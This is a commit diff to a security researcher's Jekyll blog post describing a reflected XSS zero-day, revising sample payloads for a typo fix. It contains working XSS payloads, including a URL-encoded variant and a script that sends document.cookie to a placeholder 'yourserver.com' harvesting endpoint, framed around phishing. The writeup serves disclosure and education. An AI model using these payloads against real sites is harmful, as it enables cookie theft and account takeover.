

Before and after one commit to Halcy0nic/Halcy0nic.github.io, a Jekyll site: the page built from _posts/2020-01-23-mk-zero-day.md, in a window 1280 px wide and 1400 px high, scrolled down 2967 px. Shown: the whole window at 96% size, without its empty margins (188-1091 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Fixing typos

````diff
--- a/_posts/2020-01-23-mk-zero-day.md
+++ b/_posts/2020-01-23-mk-zero-day.md
@@ -62,11 +62,11 @@ In this particular situation, the special characters were not converted to HTML
 
 ## Payload Crafting
 
-In this context we want to craft a payload that closes off the quote and preceding h3 tag and continue to execute some code:
+In this context we want to craft a payload that closes off the preceding h3 tag, continues to execute some code, and adds a trailing h3 tag to achieve a correct number of matching tags:
 ```
 Sample payload:
 
-'</h3><img src=x onerror=prompt(document.domain)>
+</h3><img src=x onerror=prompt(document.domain)><h3>
 ```
 This will cleanly close off the encompassing h3 tag and allow us to execute code that will pop up an alert to the screen with the name of the vulnerable domain:
 
@@ -76,21 +76,21 @@ It worked! <br/><br/>**Note**: in scenarios where the application does some form
 
 ```
 Sample payload encoded:
-%3C%2Fh3%3E%3Cimg%20src%3Dx%20onerror%3Dprompt%28document.domain%29%3E
+%3C%2Fh3%3E%3Cimg%20src%3Dx%20onerror%3Dprompt%28document.domain%29%3E%3Ch3%3E
 ```
 
 ## Taking it Further
 This XSS bug not only modifies the DOM but is reflected in the URL. This means we could carry out the XSS attack by providing a simple link in a phishing campaign. Collecting user cookies at this point is trivial:
 
 ```
-'</h3><img src=x onerror=prompt(document.cookie)>
+</h3><img src=x onerror=prompt(document.cookie)><h3>
 ```
 
 ![cookies](/assets/img/posts/cookie_redac.png)
 
 Harvesting cookies and shipping them off to a remote server is also quite simple:
 ```
-'</h3><script>document.location='http://yourserver.com/cookieharvest.php?d='+document.cookie;</script>
+</h3><script>document.location='http://yourserver.com/cookieharvest.php?d='+document.cookie;</script><h3>
 ```
 
 From here the possibilities are endless. There are quite a few XSS [payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection) on the web. Some possible attack scenarios include:
````
